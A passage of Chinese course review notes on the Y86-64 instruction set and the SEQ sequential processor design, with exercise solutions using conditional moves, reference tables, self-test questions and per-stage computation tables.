思路是把“要么交换、要么不交换”改写成“总是写回两个值，只是写回的值由条件决定”。先令 lo = a、hi = b，然后按 b − a 设置条件码：如果 b < a，用 cmovl 把 lo 改成 b、把 hi 改成 a；否则两条 cmovl 都不执行。最后无条件地把 lo 写回 *i、hi 写回 *(i+1)。这样只用了两条条件传送，满足“至多三条”的要求。注意两条 cmovl 之间不能插入会改变条件码的指令，而 rrmovq、cmovXX 和 rmmovq 都不改变条件码，所以可以放心地按这个顺序排列。下面只给出替换 4.47 中 Inner 到 Noswap 之间那一段的代码，其余部分不变。
mrmovq (%rcx), %r9 # a = *i
mrmovq 8(%rcx), %r10 # b = *(i+1)
rrmovq %r9, %r11 # lo = a
rrmovq %r10, %r12 # hi = b
rrmovq %r10, %rax
subq %r9, %rax # 按 b - a 设置条件码
cmovl %r10, %r11 # 若 b < a：lo = b
cmovl %r9, %r12 # 若 b < a：hi = a
rmmovq %r11, (%rcx) # *i = lo
rmmovq %r12, 8(%rcx) # *(i+1) = hi用题目数据运行，结果与 4.47 相同，共执行 275 步（4.47 为 220 步）。指令条数变多了，因为现在每次比较都要执行全部 10 条指令，而 4.47 在不需要交换时会跳过两条写回。在第 11 讲的流水线处理器上，条件跳转一旦预测错误就要丢弃已经取进流水线的指令，而条件传送没有这种代价，所以在数据随机、跳转难以预测的情况下，不用跳转的版本反而可能更快（第 11 讲讨论流水线的分支预测时会回到这个问题）。
4.49 不用跳转、只用一次条件传送实现比较与交换#
题目修改 4.47 的代码，用不含跳转、只有一条条件传送指令的代码实现冒泡排序函数中的比较与交换（C 代码第 6～11 行）。
只用一次条件传送，只能有条件地得到两个值中的一个，另一个必须用无条件的运算“算”出来。先用一条 cmovl 求出 lo = min(a, b)：令 lo = a，若 b < a 则 lo = b。然后利用异或的性质求 hi：a ^ b ^ lo 中，lo 等于 a、b 中的某一个，它会与相同的那个值相互抵消（x ^ x = 0），剩下的正好是另一个值，也就是 max(a, b)。最后把 lo 写回 *i、hi 写回 *(i+1)。
mrmovq (%rcx), %r9 # a = *i
mrmovq 8(%rcx), %r10 # b = *(i+1)
rrmovq %r9, %r11 # lo = a
rrmovq %r10, %rax
subq %r9, %rax # 按 b - a 设置条件码
cmovl %r10, %r11 # 若 b < a：lo = b，即 lo = min(a,b)
rrmovq %r9, %r12
xorq %r10, %r12 # a ^ b
xorq %r11, %r12 # hi = a ^ b ^ lo = max(a,b)
rmmovq %r11, (%rcx) # *i = lo
rmmovq %r12, 8(%rcx) # *(i+1) = hi也可以用 hi = a + b − lo 求最大值：即使 a + b 发生溢出，补码加减法在模 264 下仍然可逆，结果同样正确；但异或写法不涉及溢出，理由更直观，并且只用两条 xorq。用题目数据运行共 290 步，排序结果与前两版相同；随机的 2000 组测试中包括 a、b 接近 ±263 的情况，比较用 subq 后的 cmovl 判断，它依据 SF ^ OF，即使 b − a 溢出也能给出正确的有符号比较结果。
表 32 三个版本的比较（6 个元素的测试数据）
| 版本 | 比较与交换部分 | 条件传送 | 跳转 | 模拟步数 |
|---|---|---|---|---|
| 4.47 | 比较后 jge 跳过交换 | 0 | 1（jge） | 220 |
| 4.48 | lo、hi 各用一条 cmovl 选择 | 2 | 0 | 275 |
| 4.49 | cmovl 求 min，异或求 max | 1 | 0 | 290 |
第四部分 复习速查#
4.1 Y86-64 一页纸#
这一节把第 9 讲要背的 Y86-64 内容压成两张表。表 33 按 27 条指令列出格式、编码、效果与示例；表 34 汇总寄存器、条件码、状态码等规定。示例统一假设 %rax = 10、%rbx = 3、%rsp = 0x100、M8[0x100] = 0x20。
表 33 Y86-64 指令集速查：27 条指令的格式、编码、效果与示例
| 指令（汇编写法） | 编码 | 效果 | 示例（执行后） |
|---|---|---|---|
halt | 00 | 停机，Stat←HLT | halt → 程序结束 |
nop | 10 | 空操作，PC←PC+1 | nop → 无变化 |
rrmovq rA, rB | 20 rA rB | R[rB] ← R[rA] | rrmovq %rax,%rbx → %rbx=10 |
irmovq V, rB | 30 rB V | R[rB] ← V | irmovq $10,%rax → %rax=10 |
rmmovq rA, D(rB) | 40 rA rB D | M8[D+R[rB]] ← R[rA] | rmmovq %rax,-8(%rsp) → M8[0xf8]=10 |
mrmovq D(rB), rA | 50 rA rB D | R[rA] ← M8[D+R[rB]] | mrmovq 0(%rsp),%rax → %rax=0x20 |
addq rA, rB | 60 rA rB | R[rB] ← R[rB]+R[rA]，置 CC | addq %rax,%rbx → %rbx=13 |
subq rA, rB | 61 rA rB | R[rB] ← R[rB]−R[rA]，置 CC | subq %rax,%rbx → %rbx=−7 |
andq rA, rB | 62 rA rB | R[rB] ← R[rB]&R[rA]，置 CC | andq %rax,%rbx → %rbx=2 |
xorq rA, rB | 63 rA rB | R[rB] ← R[rB]^R[rA]，置 CC | xorq %rax,%rax → %rax=0 |
jmp D | 70 D | PC ← D | jmp L → 跳到标号 L |
jle D | 71 D | ≤ 时 PC ← D | jle L → ZF|(SF^OF) 时跳 |
jl D | 72 D | < 时 PC ← D | jl L → SF^OF 时跳 |
je D | 73 D | = 时 PC ← D | je L → ZF=1 时跳 |
jne D | 74 D | ≠ 时 PC ← D | jne L → ZF=0 时跳 |
jge D | 75 D | ≥ 时 PC ← D | jge L → SF=OF 时跳 |
jg D | 76 D | > 时 PC ← D | jg L → ZF=0 且 SF=OF 时跳 |
cmovle rA, rB | 21 rA rB | ≤ 时 R[rB] ← R[rA] | cmovle %rax,%rbx → 10≤3 否，仍 3 |
cmovl rA, rB | 22 rA rB | < 时 R[rB] ← R[rA] | cmovl %rax,%rbx → 10<3 否，仍 3 |
cmove rA, rB | 23 rA rB | = 时 R[rB] ← R[rA] | cmove %rbx,%rax → 10=3 否，仍 10 |
cmovne rA, rB | 24 rA rB | ≠ 时 R[rB] ← R[rA] | cmovne %rax,%rbx → 10≠3 是，%rbx=10 |
cmovge rA, rB | 25 rA rB | ≥ 时 R[rB] ← R[rA] | cmovge %rax,%rbx → 10≥3 是，%rbx=10 |
cmovg rA, rB | 26 rA rB | > 时 R[rB] ← R[rA] | cmovg %rax,%rbx → 10>3 是，%rbx=10 |
call D | 80 D | 返回地址入栈；PC ← D | call incr → 返回地址入栈后跳 incr |
ret | 90 | 弹出返回地址到 PC | ret → 返回 call 的下一条 |
pushq rA | A0 rA F | 压栈：R[rA] 到新栈顶 | pushq %rax → %rsp=0xf8，M8[0xf8]=10 |
popq rA | B0 rA F | 弹栈：新栈顶到 R[rA] | popq %rbx → %rbx=0x20，%rsp=0x108 |
编码一栏中 rA/rB 为寄存器编号（十六进制 0–E），F 表示不使用寄存器；D、V 为 8 字节小端立即数。示例箭头后是执行后的变化；cmovXX 的条件见 表 34。
表 34 Y86-64 其他速查：寄存器、条件码、状态码与程序结构
| 项目 | 内容 |
|---|---|
| 寄存器编号 | %rax 0、%rcx 1、%rdx 2、%rbx 3、%rsp 4、%rbp 5、%rsi 6、%rdi 7、%r8～%r14 为 8～E；F = 无寄存器（RNONE） |
| 条件码 CC | addq/subq/andq/xorq 设置 ZF、SF、OF；条件：le = ZF | (SF^OF)，l = SF^OF，e = ZF，ne = !ZF，ge = !(SF^OF)，g = !ZF & !(SF^OF) |
| 状态码 | AOK 1、HLT 2、ADR 3、INS 4；出现非 AOK 状态立即停机 |
| 指令长度 | 1 字节：halt、nop、ret；2 字节：rrmovq、cmovXX、OPq、pushq、popq；9 字节：jXX、call（后跟 8 字节地址）；10 字节：irmovq、rmmovq、mrmovq |
| 编码格式 | 首字节 icode:ifun；寄存器字节 rA:rB（不用的写 F，irmovq 只有 rB）；jXX/call 没有寄存器字节，直接跟 8 字节 D |
| 程序结构 | .pos 指定地址，.align 8 对齐，.quad 放 8 字节数据，# 后为注释；内存共 0x2000 字节，栈向低地址增长 |
| HCL 与硬件 | bool / int（word）；&& || !；== !=；组合逻辑持续响应，时钟寄存器上升沿装入，寄存器文件与内存的读写时序见 9.13–9.14 节 |
4.2 易错点清单#
| # | 易错点 | 正确理解 |
|---|---|---|
| 1 | subq rA, rB 算 rA − rB | 算 rB − rA，结果写回 rB，与 x86-64 的 AT&T 顺序相同 |
| 2 | mrmovq 的编码是 50 rB rA | 编码字段顺序永远是 rA 在前：mrmovq D(rB), rA 编码为 50 rA rB D |
| 3 | 常数和地址按书写顺序存放 | 8 字节常数按小端存放：0x41c 存为 1c 04 00 00 00 00 00 00 |
| 4 | jXX 存放相对偏移 | Y86-64 的 jXX、call 存放完整的绝对地址；x86-64 的直接跳转才用 PC 相对偏移 |
| 5 | Y86-64 有 cmpq/testq/lea | 都没有：比较用 subq（先复制）或 andq；地址只能用 addq 算 |
| 6 | 可以 addq $8, %rdi | 算术只能寄存器对寄存器，常数要先 irmovq 进寄存器 |
| 7 | Y86-64 能做无符号比较 | 没有 CF，也就没有 ja/jb/cmova 等无符号条件 |
| 8 | yis 报告里的内存变化都是“有用数据” | ret 不清除栈内容，压入过的返回地址也会作为变化出现 |
| 9 | HCL 表达式按顺序执行、会短路 | HCL 描述电路，没有执行顺序；只有 case 表达式的各项有优先次序 |
| 10 | 课件 Min3 的写法总是正确 | 严格小于在 A = B < C 时出错，应写成 A <= B && A <= C |
| 11 | 寄存器的输出随输入随时变化 | 只在时钟上升沿变化；同一周期内读写同一寄存器读到的是旧值 |
| 12 | “寄存器”就是 %rax 这类寄存器 | 硬件寄存器是任何时钟控制的存储字；程序寄存器只是存放在寄存器文件中的那 15 个 |
4.3 中英术语对照#
| English | 中文 | English | 中文 |
|---|---|---|---|
| instruction set architecture (ISA) | 指令集体系结构 | combinational circuit | 组合电路 |
| programmer-visible state | 程序员可见状态 | logic gate | 逻辑门 |
| condition code | 条件码 | multiplexor (MUX) | 多路复用器 |
| program status (Stat) | 程序状态 | hardware control language (HCL) | 硬件控制语言 |
| instruction code / function code | 指令代码 / 功能码 | case expression | 情况表达式 |
| register specifier byte | 寄存器指示符字节 | set membership | 集合成员测试 |
| constant word | 常数字 | arithmetic/logic unit (ALU) | 算术逻辑单元 |
| little-endian | 小端 | clocked register | 时钟寄存器 |
| assembler / simulator | 汇编器 / 模拟器 | rising edge | 上升沿 |
| CISC / RISC | 复杂 / 精简指令集计算机 | register file | 寄存器文件 |
| load/store architecture | 载入/存储体系结构 | read port / write port | 读端口 / 写端口 |
| PC-relative addressing | PC 相对寻址 | bistable element | 双稳态元件 |
| absolute address | 绝对地址 | latch / edge-triggered | 锁存器 / 边沿触发 |
| position-independent code | 位置无关代码 | metastable | 亚稳态 |
第五部分 自测题#
以下题目为新编，编码与运行结果均已用汇编器和模拟器核对。
写出下列 Y86-64 指令的编码：rmmovq %rbx, -8(%rbp)、cmovg %rcx, %r11、jne 0x2a8、popq %rsp。
从地址 0x100 开始的字节为 30 f3 fc ff ff ff ff ff ff ff 40 63 00 08 00 00 00 00 00 00 62 33 74 00 01 00 00 00 00 00 00 00，写出对应的汇编程序及每条指令的地址。
某程序要判断 %rdx 是否为 0 后跳转，为什么 Y86-64 中常写 andq %rdx, %rdx 而不是 subq %rdx, %rdx？
只用 Y86-64 指令，把 %rdi 的 4 倍放入 %rax（不改变 %rdi）。
%rax = 0x7fffffffffffffff、%rbx = 1，执行 addq %rbx, %rax 后，%rax 和 ZF、SF、OF 各是多少？之后 cmovl %rbx, %rcx 会不会执行传送？
模拟器从地址 0 开始执行，地址 0 处的字节是 0xC0，Stat 和 PC 最后是什么？如果程序跳到一片全 0 的内存，又会怎样？
用 HCL 写出位级异或 bool xor，以及三个字的中位数 Med3（三个值中有相等的情况也要正确）。
课件 p.48 的 Out4 中，s1 = 1、s0 = 0 时输出哪一个输入？为什么第三项只写 !s0 就够了？
累加器（课件 p.41）在某周期开始时 Out = 10，本周期 In = 4、Load = 0，下一周期 In = 7、Load = 1。两个上升沿之后 Out 依次是多少？
寄存器文件中，某周期 srcA = 3、dstW = 3、valW = 99，%rbx 原值为 5。上升沿之前 valA 是多少？上升沿之后呢？若 dstW = 0xF 又如何？
自测题答案#
40 35 f8 ff ff ff ff ff ff ff（rA = %rbx = 3，rB = %rbp = 5，−8 的补码小端存放）；26 1b（fn 6 = g，%rcx = 1，%r11 = 0xB）；74 a8 02 00 00 00 00 00 00；b0 4f。
0x100：irmovq $-4, %rbx；0x10a：rmmovq %rsi, 0x800(%rbx)；0x114：andq %rbx, %rbx；0x116：jne 0x100；0x11f：halt。
andq 把 %rdx 与自身相与，结果仍是 %rdx，值不变，但按它设置 ZF、SF；subq %rdx, %rdx 的结果恒为 0，ZF 恒为 1，不仅判断不了，还把 %rdx 清零了。
rrmovq %rdi, %rax、addq %rax, %rax、addq %rax, %rax（Y86-64 没有移位和乘法，用两次自加；模拟器中 %rdi = 5 时得到 20）。
%rax = 0x8000000000000000，ZF = 0、SF = 1、OF = 1（正溢出，模拟器实测）。cmovl 的条件是 SF ^ OF = 0，不成立，所以不传送：从数学上看 0x7fff…f + 1 > 0，并不是“小于”。
0xC0 不是合法的指令代码，第 1 步即以 Stat = INS 停止，PC 停在 0。跳进全 0 内存时，读到的 0x00 就是 halt，以 Stat = HLT 停止，PC 为那个 0 字节的地址。
bool xor = (a && !b) || (!a && b);；Med3 可写成 int Med3 = [ A <= B && B <= C : B; C <= B && B <= A : B; B <= A && A <= C : A; C <= A && A <= B : A; 1 : C; ];（与教材练习题 4.12 的答案一致，已对 0～2 的全部 27 种组合枚举验证）。
输出 D2。能走到第三项，说明前两项都不成立：第一项不成立表示 s1s0 ≠ 00，第二项不成立表示 s1 = 1；再加上 s0 = 0，只能是 10，所以只需检查 !s0。
第一个上升沿到来时，Load = 0，装入 10 + 4 = 14；第二个上升沿到来时，Load = 1，装入 In = 7。所以依次是 14、7。
上升沿之前 valA = 5（读是组合的，写还没发生）；上升沿之后 %rbx 变为 99，valA 经一段延迟变为 99。若 dstW = 0xF，则不写任何寄存器，valA 一直是 5。
—— 第 9 讲讲义完 ——
计算机系统导论（ICS）
复习讲义 · 第 10 讲
处理器体系结构 II：顺序实现 SEQ（Processor Architecture II: SEQ Sequential Implementation）
如何使用本讲义#
第 9 讲规定了 Y86-64 这台机器“应该做什么”（指令集），也准备好了造机器用的零件（组合逻辑、寄存器、存储器和描述控制逻辑的 HCL）。第 10 讲把二者接起来，造出第一台能运行 Y86-64 程序的处理器 SEQ（sequential，顺序处理器）：它在每个时钟周期里完整地执行一条指令。SEQ 本身太慢，并不实用，但它是第 11 讲流水线处理器 PIPE 的出发点，PIPE 的每个部件几乎都是从 SEQ 原样搬过去的，所以本讲的每张表、每段 HCL 都要真正弄懂。
全讲的思路可以概括成三步：先把每条指令的执行拆成六个阶段，并让所有指令都套进同一个框架（10.2–10.4 节）；再为这个框架配上硬件，并用 HCL 写出每个控制块（10.5–10.11 节）；最后看这台硬件怎样在时钟控制下一周期一周期地运行，以及它为什么慢（10.12、10.15 节）；10.13、10.14 节专门讨论两个常被问到的问题：valA 这类值保存在哪里，以及 SEQ 为什么要这样设计。讲义中所有逐阶段的数值都由模拟器实际生成；课件与教材不一致或有误的地方用橙色方框指出。图中的配色沿用课件约定：蓝色框是现成的硬件部件，灰色圆角框是要用 HCL 描述的控制逻辑，白色椭圆是信号名；粗线是 64 位的字，细线是 4～8 位的值，虚线是 1 位的控制信号。
表 1 第 10 讲内容地图
| 课件部分 | 核心问题 | 本讲义小节 |
|---|---|---|
| 回顾（p.2–3、p.28–29） | Y86-64 编码；组合逻辑与存储部件；HCL | 10.1 |
| SEQ 的结构与阶段（p.4–8、p.14） | 一条指令分成哪六个阶段，每个阶段干什么 | 10.2 |
| 各类指令的阶段计算（p.9–13、p.20–27） | OPq、rmmovq、popq、cmovXX、jXX、call、ret 各阶段算什么 | 10.3 |
| 统一的计算框架（p.6、p.16–18） | 为什么所有指令能用同一套硬件；各信号的含义 | 10.4 |
| SEQ 硬件（p.15、p.30） | 整体硬件框图与画图约定 | 10.5 |
| 取指、译码/写回、执行、访存、更新 PC 逻辑（p.31–45） | 每个控制块的 HCL 怎样写、为什么这样写 | 10.6–10.11 |
| SEQ 的运行（p.46–53） | 时钟上升沿前后状态与组合逻辑的变化 | 10.12 |
| （讲义补充） | valA 等值保存在哪里；SEQ 为什么这样设计、不这样会怎样 | 10.13、10.14 |
| SEQ 小结（p.54） | SEQ 的问题：太慢 | 10.15 |
说明：2026 版课件的调整与本讲义的页码
关于页码，本讲义正文中的“课件 p.x”均指 2026 版（54 页）。研讨题题目沿用 2025 版页码，第二部分开头给出了对照。
2026 版的讲法也有变化：不再先讲“SEQ 硬件结构”和“六个阶段”的抽象定义，而是先看 OPq、mrmovq 这样的具体指令（p.4–6），归纳出所有指令共同的模式；接着讲 OPq、rmmovq、call 的阶段计算（p.7–13），再引出执行它们的一套部件（p.14 的抽象结构、p.15 的完整硬件图），并在 p.16–18 把三条指令的数据通路画在硬件图上；p.19 是新增的“接口设计”一页（10.14 节）；之后才是 cmovXX、jXX、ret、popq（p.20–27）。
此外，HCL 的回顾从开头移到了 p.28–29；时序部分开头加了两页回顾（p.47–48）。2025 版开头的指令格式由四页减为一页（p.2）；“计算出的值”一览（2025 版 p.28）和单独的“指令状态”HCL 页（2025 版 p.41）被删去，讲义仍保留表 9 和 Stat 的 HCL。
最后还有几处笔误：p.14 抽象结构图中的 dstA、dstB（应为 dstE、dstM）和 p.40 表中的 rmmovl、OPl（应为 rmmovq、OPq）在 2026 版中仍未更正。
第一部分 第 10 讲知识点：SEQ 顺序实现#
10.1 回顾：指令编码、硬件部件与 HCL（课件 p.2–3、p.28–29）#
课件 p.2 回顾了 Y86-64 的指令格式（图 1；2025 版用了 p.2–5 四页，还把三组功能码逐条展开）。对 SEQ 来说，这张图要换一个角度读：硬件取到一条指令后，必须只凭第 0 个字节就知道这条指令有多长、有没有寄存器字节、有没有常数字。第 0 个字节的高 4 位是指令代码 icode，低 4 位是功能码 ifun；有寄存器字节时，它的高、低 4 位分别是 rA、rB，用不到的那个填 0xF；有常数时，它是紧接着的 8 个字节，小端存放，称为 valC。各组的功能码（第 9 讲表 3）是：cmovXX（含 rrmovq）的 7 个功能码为rrmovq 0、cmovle 1、cmovl 2、cmove 3、cmovne 4、cmovge 5、cmovg 6，jXX 的功能码与之一一对应（jmp 0、jle 1、…、jg 6）；OPq 的功能码是 addq 0、subq 1、andq 2、xorq 3。

图 1 Y86-64 指令编码（课件 p.2；第 9 讲图）
p.3 回顾了造处理器的两类零件。组合逻辑（combinational logic）计算布尔函数，输入一变，输出经过一段传播延迟就跟着变，它负责“算”；ALU、多路复用器以及所有控制逻辑都属于这一类。存储部件（storage elements）负责“记”：一类是不可寻址的寄存器，如 PC 和条件码 CC；另一类是可寻址的存储器，如寄存器文件和内存。它们有一个共同点：只在时钟上升沿装入新值。寄存器文件和存储器的“读”则像组合逻辑一样，地址一给出，数据经过延迟就出现在输出端。这个“读是组合的、写在时钟沿”的约定，是理解 10.12 节 SEQ 时序的关键。
课件 p.28–29 回顾了 HCL（2026 版把这两页从开头移到了讲各阶段逻辑之前）。HCL 只有两种数据类型：bool（1 位的布尔信号，用小写名字）和字（多位的整数信号，用大写名字或带 val 前缀的名字）。布尔表达式有 &&、||、! 和字的比较；集合成员测试 A in { B, C, D } 等价于 A == B || A == C || A == D；字表达式主要是情况表达式 [ a : A; b : B; 1 : C ]，按顺序检查条件，取第一个成立的条件对应的值。本讲的所有控制逻辑都只用这几种写法。
⚠ 课件 p.28 的旧写法
课件 p.28 把字类型写成 int（2025 版的同一页还说“不指定字长：字节、32 位字……”，2026 版已删去这句）。这是第二版教材（32 位的 Y86）留下的写法；第三版教材和 seq-full.hcl 用 word 表示字类型，字长为 64 位。课件 p.33–45 的 HCL 代码也都写作 int，读的时候把它当成 word 即可，含义完全相同。
10.2 把指令执行组织成六个阶段（课件 p.4–8、p.14）#
SEQ 的状态部件与第 9 讲的程序员可见状态一一对应（课件 p.14、p.49）：程序计数器寄存器 PC、条件码寄存器 CC、寄存器文件，以及存储器。存储器在逻辑上只有一个地址空间，但 SEQ 把它画成两个部件：指令存储器只用来读指令，数据存储器用来读写程序数据。这样同一个周期里既能取指令又能访问数据。处理一条指令的流程是：按 PC 读出指令，让它依次经过各个阶段，最后更新 PC。
教材和课件把一条指令的处理统一拆成六个阶段（图 2，课件 p.6、p.14）：
第一个阶段是取指（Fetch），以 PC 为地址从指令存储器读出指令字节，拆出 icode、ifun，必要时拆出寄存器字节 rA、rB 和常数字 valC，并算出顺序执行时下一条指令的地址 valP（= PC + 本条指令长度）。
第二个阶段是译码（Decode），从寄存器文件读出最多两个操作数，得到 valA、valB。
第三个阶段是执行（Execute），ALU 计算出一个值 valE，可能是运算结果、有效地址，或增减后的栈指针；OPq 在这里设置条件码；条件传送和条件跳转在这里根据条件码算出条件信号 Cnd。
第四个阶段是访存（Memory），把数据写入数据存储器，或从中读出一个值 valM。
第五个阶段是写回（Write back），把最多两个结果（valE、valM）写回寄存器文件。
最后一个阶段是更新 PC（PC update），把 PC 设为下一条指令的地址。
2026 版课件引出这六个阶段的方式是先看一条具体指令：p.4 把 OPq 的阶段计算表贴在硬件图旁，p.5–6 以 mrmovq D(rB), rA 为例逐阶段描述后，得出“所有指令都遵循这一模式”。p.6 的译码一行写作“从寄存器文件读 rB、rA”，对 mrmovq 并不准确：它在译码阶段只读基址寄存器 rB（srcB = rB），rA 是写回阶段的目的寄存器（dstM = rA），并不需要读出；10.7 节 srcA 的 HCL 中读 rA 的指令只有 rrmovq/cmovXX、rmmovq、OPq 和 pushq，没有 mrmovq。
图 2 SEQ 的抽象结构：六个阶段自下而上排列（课件 p.14；已把课件图中的 dstA、dstB 更正为 dstE、dstM）
图 2自下而上地画出了信息的流向：PC 送进指令存储器和 PC 增加器，取指产生 icode、ifun、rA、rB、valC、valP；译码根据它们决定读哪两个寄存器（srcA、srcB）、以后写哪两个寄存器（dstE、dstM），读出 valA、valB；执行阶段 ALU 的两个输入 aluA、aluB 从 valA、valB、valC 和常数中选择，输出 valE，条件码给出 Cnd；访存阶段的地址和数据从 valE、valA、valP 中选择，读出 valM；写回阶段把 valE、valM 分别从寄存器文件的 E 口、M 口写回；最后从 valC、valM、valP 中选出新的 PC。注意写回画在图的右侧并向下连回寄存器文件：寄存器文件既在译码阶段被读，又在写回阶段被写，所以译码和写回共用一个部件。
⚠ 课件 p.14 结构图的笔误课件 p.14 的结构图（2025 版的 p.9、p.10 也是同一张图）中
，送进寄存器文件写端口的信号标成了“dstA, dstB”，应为 dstE, dstM。寄存器文件的两个写端口分别叫 E 口和 M 口，对应写入 valE 和 valM（课件 p.35 和教材图 4.23 都写作 dstE、dstM）。
课件 p.8 把一条指令的格式与取指阶段产生的字段对齐：第 0 字节给出 icode:ifun；可选的第 1 字节给出 rA:rB；可选的常数字给出 valC。以 mrmovq D(rB), rA 为例，它的编码是 50 rA rB D，取指后得到 icode = 5、ifun = 0、rA、rB 和 valC = D。课件 p.7 先用文字描述 OPq 在六个阶段各做什么：取指读 2 个字节；译码读两个操作数寄存器；执行做运算并设置条件码；访存什么也不做；写回更新寄存器；更新 PC 时把 PC 加 2。下一节把每类指令都写成这样的“阶段计算表”。
10.3 各类指令的阶段计算（课件 p.9–13、p.20–27；教材图 4.18–4.21）#
阶段计算表用寄存器传送的写法描述每个阶段算什么：M1[a] 表示读地址 a 处的 1 个字节，M8[a] 表示读从 a 开始的 8 个字节（小端拼成一个字）；R[r] 表示寄存器 r；“icode:ifun ← M1[PC]”表示读出一个字节并拆成高、低 4 位。设计这些表的唯一原则是让所有指令尽量走同一条路：同一种值总是放在同一个信号里，同一种操作总是在同一个阶段做，这样硬件才能共享。
（1）OPq、rrmovq 与 irmovq（课件 p.9；教材图 4.18）#
表 2 整数运算、寄存器传送与立即数传送的阶段计算
| 阶段 | OPq rA, rB | rrmovq rA, rB | irmovq V, rB |
|---|---|---|---|
| 取指 | icode:ifun ← M1[PC] rA:rB ← M1[PC+1] valP ← PC+2 | icode:ifun ← M1[PC] rA:rB ← M1[PC+1] valP ← PC+2 | icode:ifun ← M1[PC] rA:rB ← M1[PC+1] valC ← M8[PC+2] valP ← PC+10 |
| 译码 | valA ← R[rA] valB ← R[rB] | valA ← R[rA] | — |
| 执行 | valE ← valB OP valA Set CC | valE ← 0 + valA | valE ← 0 + valC |
| 访存 | — | — | — |
| 写回 | R[rB] ← valE | R[rB] ← valE | R[rB] ← valE |
| 更新 PC | PC ← valP | PC ← valP | PC ← valP |
三条指令的写回都是“R[rB] ← valE”，结果都从 ALU 出来。OPq 的 ALU 按 ifun 做加、减、与、异或，并把结果的零、负、溢出写入条件码；注意写法是 valB OP valA，减法算的是 R[rB] − R[rA]，与 subq rA, rB 的语义一致。rrmovq 和 irmovq 并不需要计算，却也让数据“穿过”ALU，做一次 0 + valA 或 0 + valC 的加法：这样写回只需从 valE 一个来源取值，省掉一个多路选择。
（2）rmmovq 与 mrmovq（课件 p.10–11；教材图 4.19）#
表 3 读写内存指令的阶段计算
| 阶段 | rmmovq rA, D(rB) | mrmovq D(rB), rA |
|---|---|---|
| 取指 | icode:ifun ← M1[PC] rA:rB ← M1[PC+1] valC ← M8[PC+2] valP ← PC+10 | icode:ifun ← M1[PC] rA:rB ← M1[PC+1] valC ← M8[PC+2] valP ← PC+10 |
| 译码 | valA ← R[rA] valB ← R[rB] | valB ← R[rB] |
| 执行 | valE ← valB + valC | valE ← valB + valC |
| 访存 | M8[valE] ← valA | valM ← M8[valE] |
| 写回 | — | R[rA] ← valM |
| 更新 PC | PC ← valP | PC ← valP |
两条指令都用 ALU 计算有效地址 valE = R[rB] + D（课件 p.11 的说明：“Use ALU for address computation”）。rmmovq 在访存阶段把 valA（即 R[rA]）写到 valE 处，没有写回；mrmovq 在访存阶段读出 valM，写回阶段写进 rA。注意 mrmovq 的写回是 R[rA] ← valM：从内存读出的值永远通过 M 口写回，而 ALU 算出的值永远通过 E 口写回。
（3）pushq 与 popq（课件 p.26–27；教材图 4.20）#
表 4 入栈与出栈指令的阶段计算
| 阶段 | pushq rA | popq rA |
|---|---|---|
| 取指 | icode:ifun ← M1[PC] rA:rB ← M1[PC+1] valP ← PC+2 | icode:ifun ← M1[PC] rA:rB ← M1[PC+1] valP ← PC+2 |
| 译码 | valA ← R[rA] valB ← R[%rsp] | valA ← R[%rsp] valB ← R[%rsp] |
| 执行 | valE ← valB + (−8) | valE ← valB + 8 |
| 访存 | M8[valE] ← valA | valM ← M8[valA] |
| 写回 | R[%rsp] ← valE | R[%rsp] ← valE R[rA] ← valM |
| 更新 PC | PC ← valP | PC ← valP |
pushq 先把栈指针减 8（ALU 算 valB + (−8)），再把 R[rA] 写到新的栈顶 valE，最后把新栈指针写回 %rsp。popq 是唯一要同时写两个寄存器的指令（课件 p.27：“Must update two registers”）：%rsp 加 8 后从 E 口写回，弹出的值从 M 口写进 rA。popq 在译码阶段把 %rsp 读了两次，valA 和 valB 都是旧栈指针：valB 送进 ALU 去加 8，valA 则直接作为访存地址，因为出栈要从旧栈顶读数。这样安排使访存地址只来自 valE 或 valA 两处（pushq、rmmovq、mrmovq 用 valE，popq、ret 用 valA），也使 ALU 的 B 输入总是 valB。
★ 两个特殊情况：pushq %rsp 与 popq %rsp
按表执行 pushq %rsp 时，valA ← R[%rsp] 读的是旧值，写入内存的也是旧值，与 x86-64 的约定一致（教材练习题 4.7、4.15）。
popq %rsp 的两个写回都写 %rsp，E 口写 旧值 + 8，M 口写从栈中读出的值。教材约定此时 M 口优先，%rsp 最终等于读出的值，效果等同于 mrmovq (%rsp), %rsp（教材练习题 4.8、4.16、4.22）。模拟器也验证了这一点：先压入 0xabcd 再执行 popq %rsp，%rsp = 0xabcd。
（4）cmovXX 与 jXX（课件 p.20–23；教材练习题 4.17、图 4.21）#
表 5 条件传送与条件跳转的阶段计算
| 阶段 | cmovXX rA, rB | jXX Dest |
|---|---|---|
| 取指 | icode:ifun ← M1[PC] rA:rB ← M1[PC+1] valP ← PC+2 | icode:ifun ← M1[PC] valC ← M8[PC+1] valP ← PC+9 |
| 译码 | valA ← R[rA] valB ← 0 | — |
| 执行 | valE ← valB + valA Cnd ← Cond(CC, ifun) if !Cnd: rB ← 0xF | Cnd ← Cond(CC, ifun) |
| 访存 | — | — |
| 写回 | R[rB] ← valE | — |
| 更新 PC | PC ← valP | PC ← Cnd ? valC : valP |
条件传送与 rrmovq 共用指令代码 2，执行时让 valA 穿过 ALU。不同的是执行阶段还要根据条件码和 ifun 算出条件 Cnd：条件不成立时，把目的寄存器编号改成 0xF（课件 p.21：“Cancel move by setting destination register to 0xF”），于是写回阶段的“R[rB] ← valE”变成写向“不存在的寄存器”，等于什么也不写。教材练习题 4.17 的答案写成“if (Cnd) R[rB] ← valE”，两种写法效果相同；硬件上就是 10.7 节 dstE 的第一行。课件写“valB ← 0”，实际硬件并不去读寄存器，而是让 ALU 的 B 输入直接取常数 0（见 10.8 节 aluB）。
跳转指令 jXX 有 9 个字节：取指时同时算出两个候选地址，目标地址 valC 和顺序下一条的地址 valP；执行阶段算出 Cnd；更新 PC 时二选一（课件 p.23：“Compute both addresses; choose based on setting of condition codes and branch condition”）。可见，cmovXX 和 jXX 在执行阶段使用同一个 Cnd 信号（同一个 cond 部件，由 ifun 选条件），区别只在于 Cnd 用在哪里：cmovXX 用它决定写不写寄存器，jXX 用它决定 PC 取哪个值。表 6列出了 ifun 对应的条件。
表 6 功能码 ifun 与条件 Cond(CC, ifun)（cmovXX 与 jXX 共用）
| ifun | jXX | cmovXX | 条件（成立时 Cnd = 1） |
|---|---|---|---|
| 0 | jmp | rrmovq | 1（无条件） |
| 1 | jle | cmovle | (SF ^ OF) | ZF |
| 2 | jl | cmovl | SF ^ OF |
| 3 | je | cmove | ZF |
| 4 | jne | cmovne | ~ZF |
| 5 | jge | cmovge | ~(SF ^ OF) |
